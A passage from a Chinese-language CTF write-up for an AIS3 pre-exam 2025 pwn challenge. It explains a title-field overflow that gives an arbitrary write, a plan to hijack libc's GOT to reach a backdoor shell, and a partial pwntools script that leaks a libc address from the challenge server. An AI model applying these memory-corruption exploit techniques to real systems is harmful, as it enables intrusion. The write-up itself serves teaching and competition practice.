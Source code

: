 ![image](/images/ais3-pre-exam-2025/ais3-pre-exam-2025_image33.png)

然後後面 ida 之後才發現原來 edit title 可能會覆蓋到 edit content 拿到要寫入的值，並且如果 gdb 進去看結構會發現 0x4042C8 + 24 其實是儲存一個 address，因此我們如果 overflow title 的部分就代表會覆蓋到 address，所以才會導致 show 的時候拿不到值，因為 show 也是使用相同方式拿資料的，這部分就不 gdb 進去 demo 了，而這也代表我們可以將要寫資料的 address 直接透過 overflow title 的部分，接下來 edit content 的時候就會寫到那一塊了，但要注意，要記得 vmmap 看一下那一段是否可寫，不然寫了會 crash

![image](/images/ais3-pre-exam-2025/ais3-pre-exam-2025_image34.png)

![image](/images/ais3-pre-exam-2025/ais3-pre-exam-2025_image35.png)

那既然拿到任意寫，究竟要任意寫去哪裡，這時候看到 source code 會發現有個 debug_backdoor 是可以直接開 shell 的，因此我們只要 control flow 到那個 backdoor 就可以了，但會發現 schedule 結構上沒有 function pointer，然後確認一下保護機制會發現 Full RELRO，所以程式上的 got 也不可寫

![image](/images/ais3-pre-exam-2025/ais3-pre-exam-2025_image36.png)

這時候就來到最有趣的時候了，我原本以為沒有給 libc 應該是可以不用打 libc，但最後也只有想到 libc 有個 got table 可以寫，最後就結束了，但後面覺得應該只差一點點，所以就乾脆直接把題目架起來，接下來進入 container 把 linker、loader 拉出來做 patchelf，但最後發現有些會 patch 失敗，所以就果斷進去 container 並且把 debug 環境處理好，然後一步一步跟著 debugger 走，會發現跟過去看過的 [Libc-GOT-Hijacking](https://github.com/n132/Libc-GOT-Hijacking)相同，有一個段落會是一堆 ABS 之類的，中間會跳到一段可寫的 got table，基本上我也沒在記哪邊可以寫，但可以好好關注以下圖片的可寫段，或是其他沒有圈起來但是他有 write 權限，如果中間有 jmp 到某段可以寫的，並且那邊看起來是一個 address，就可以嘗試寫寫看，就有機會可以 control flow

![image](/images/ais3-pre-exam-2025/ais3-pre-exam-2025_image37.png)

那就會發現我們會需要利用 libc，那就需要 leak libc，這時就可以利用 show 的部分，我們可以填入某個 got，那藉由 show 的功能去看 content 就可以察看到某個 libc address，所以只要藉由這樣的方式是就可以去計算 libc 的 base，以下是 leak libc base address 的 script

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

def create(r, title, content):
    r.sendlineafter('> ', b'1')
    r.sendlineafter('title > ', title)
    r.sendlineafter('content > ', content)

def edit_title(r, title):
    r.sendlineafter('> ', b'2')
    r.sendlineafter('title > ', title)

def edit_content(r, content):
    r.sendlineafter('> ', b'3')
    r.sendlineafter('content > ', content)

def show(r):
    r.sendlineafter('> ', b'4')

def login(r):
    r.sendlineafter('Username > ', b"MyGO!!!!!")
    r.sendlineafter('Password > ', b"TomorinIsCute")

# r = process('./chal')
r = remote('chals1.ais3.org', 51000)
login(r)
put_got = 0x0000000000403fd0
write = 0x321098
win = 0x4013EC
create(r, b'a' * 0x16, b'b' * 0x16)
edit_title(r, b'a' * 24 + p64(put_got))
show(r)
r.recvuntil(b'Content : ')
leak = r.recvuntil(b'\n', drop=True)
```